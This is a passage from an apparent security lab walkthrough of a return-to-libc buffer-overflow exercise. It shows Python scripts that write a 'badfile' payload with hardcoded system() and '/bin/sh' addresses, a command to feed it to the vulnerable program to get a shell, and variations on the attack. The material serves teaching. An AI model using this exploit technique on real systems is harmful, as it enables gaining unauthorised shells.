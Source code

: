 ```python
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

---

###### Step 4: Test the Exploit
1. Run the vulnerable program with the crafted `badfile`:
   ```bash
   ./vulnerable_program < badfile
   ```
2. If the exploit is successful, you should get a shell.

---

##### Attack Variations

###### Variation 1: Exclude `exit()`
To test the attack without including the address of `exit()`, simply remove the `exit_addr` from the payload:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
sh_addr = 0xf7f52a0b       # The address of "/bin/sh"
system_addr = 0xf7e12420   # The address of system()

# Offsets
X = 112
Y = 108

# Construct the payload
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

Run the attack again and observe the behavior. The program may crash after executing `system()` because there is no valid return address.

---

###### Variation 2: Change the File Name
If you change the file name of the vulnerable program (e.g., from `retlib` to `newretlib`), the attack may fail. This is because the memory layout of the program (including the stack and libc addresses) may change due to differences in the length of the file name. To fix this, you would need to recalculate the addresses and offsets.

---